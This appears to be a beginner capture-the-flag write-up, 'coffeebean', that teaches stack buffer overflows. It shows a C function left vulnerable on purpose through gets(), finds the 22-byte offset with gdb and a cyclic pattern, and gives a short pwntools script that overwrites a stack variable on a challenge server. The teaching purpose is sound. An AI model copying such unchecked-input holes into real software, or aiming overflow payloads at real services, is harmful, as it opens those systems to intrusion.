 # Challenge Name
coffeebean

## Learning Objective
Test understanding of the stack overflow

## Description 
The perfect beans for the perfect cup of coffee.

## Difficulty:
easy

## Guide
Let's look at the source code.

```c
void harvest() {
    char beans[10] = "notgood";
    char condition[20];
    printf("How are the beans doing? \n");
    gets(condition);
    keg(beans);
}
```

There is a buffer overflow vulnerability with the use of `gets` for the `condition` variable.

The `keg` function also checks for the `beans` variable:

```c
    if (strcmp(beans, "perfect") == 0){
```

`beans` is set to `notgood`, so what we actually want to do here is to overwrite the **variable**.

But first we need to find out exactly how many bytes we need to overwrite.

This time we will also set a breakpoint at `keg` function to check.

### strmcp in asm
Before the program calls `strcmp`, `rsi` & `rdi` registers will point to the location of the 2 values that are being compared.

```sh
rsi: value 1
rdi: value 2
call strcmp@plt 
```

### Finding offset
Run the following in gdb:
1. `break keg`
2. `run`
3. send a cyclic pattern of 30 when program asks for input (`cyclic 30`)

You should see this in the disassembly:
```sh
   0x4007b0 <keg+25>    lea    rsi, [rip + 0x1d1]               RSI => 0x400988 ◂— jo 0x4009ef /* 'perfect' */
   0x4007b7 <keg+32>    mov    rdi, rax                         RDI => 0x7fffffffdc46 ◂— 'aadaaaaa'
   0x4007ba <keg+35>    call   strcmp@plt                  <strcmp@plt>
```

We can see that the `rdi` register is pointing to our input. Let's check what is the offset we need.

```sh
pwndbg> cyclic -l aadaaaaa
Finding cyclic pattern of 8 bytes: b'aadaaaaa' (hex: 0x6161646161616161)
Found at offset 22
```

What this means is that we need to fill 22 bytes in the input first, before we can overwrite `notgood`. With this info, we can write our solve script.

### Script
```py
from pwn import *

# connect to remote server
p = remote("SERVER", port)

# send 22 bytes first
payload = b'A' * 22

#overwrite `notgood`
payload += b'perfect'

# send payload to server
p.sendline(payload)
p.interactive()
```


## Solution
Refer to solve.py

## Hints
1. how do you check how many bytes to overflow?
2. https://stackoverflow.com/questions/63110044/strcmp-in-nasm-x86-64-registers

## Attached Files
chall.c
chall

## Resources
- https://stackoverflow.com/questions/63110044/strcmp-in-nasm-x86-64-registers

## Flag
TBD